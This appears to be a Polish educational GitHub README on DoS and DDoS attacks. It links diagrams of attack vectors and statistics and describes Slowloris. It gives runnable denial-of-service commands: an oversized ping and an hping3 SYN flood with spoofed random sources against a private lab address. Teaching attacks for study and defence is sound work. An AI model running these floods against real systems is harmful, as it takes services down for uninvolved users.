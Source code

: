 # Przedstawienie różnorodności ataków

## DoS DDoS cz. 1
__Ataki DoS__ (ang. Denial of Service), czyli zablokowanie usług na wybranej maszynie z wykorzystaniem innej maszyny 
__Ataki DDoS__ (ang. Distributed Denial of Service), czyli zablokowanie usług na wybranej maszynie z wykorzystaniem wielu innych maszyny 

Podsumowanie możliwych wektorów ataku w podziale na warstwy ISO/OSI:
![png](https://raw.githubusercontent.com/a11g0rhythm/test/main/DoS_DDoS_cz_101_mozliwe_wektory_ataku.png)


Statystyki dotyczące ataków DDoS
![png](https://raw.githubusercontent.com/a11g0rhythm/test/main/DoS_DDoS_cz_102_statystyki.png)

## DoS DDoS cz. 2
Przykład ataku DoS w warstwie sieciowo/transportowej 
Wysyłanie pakietów w wielkości 64 kilobajtów
```sh
ping 192.168.1.23 -s 65507
```
Atak z użyciem `hping3`

Instalacja Debian/Ubuntu/Kali
```sh
sudo apt install -y hping3  
```

Instalacja Fedora/CentOS/Rhel
```sh
sudo dnf install hping3 
```

Przeprowadzenie ataku DDoS z losowych adresów ip
```sh
sudo hping3 -c 100000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.23

# opis opcji
- c 100000 - wysłanie 100000 pakietów
- d 120     - rozmiar pakietu 120 bajtów
- S         - wysłanie pakietów z flagą SYN
- w 64      - okno TCP o rozmiarze 64 kilobajty
- p 80      - atak portu 80
- flood     - zastępujemy nasz adres docelowy pakietami z ustawionym nagłówkiem SYN 
- rand-source - jako źródło będą podawane losowe adresy ip
- 192.168.1.23 - adres atakowanego komputera ofiary 
```

Przykład ataku DoS w warstwie aplikacji na serwer Apache z pomocą programu [SlowLorisDDoSAttackCPP](https://github.com/vsouda/SlowLorisDDoSAttackCPP).

Atak polega na otwieraniu wielu połączeń do serwera docelowego i pozostawia je otwarte tak długo, jak to możliwe. Odbywa się to przez otwarcie połączeń do serwera docelowego i wysłanie częściowego żądania, ale nie kończenie go. Z powodu cyklicznego powtarzania tej czynności serwer może osiągnąć maksymalną liczbę równoczesnych połączeń i odrzucać dodatkowe próby połączenia od innych klientów.
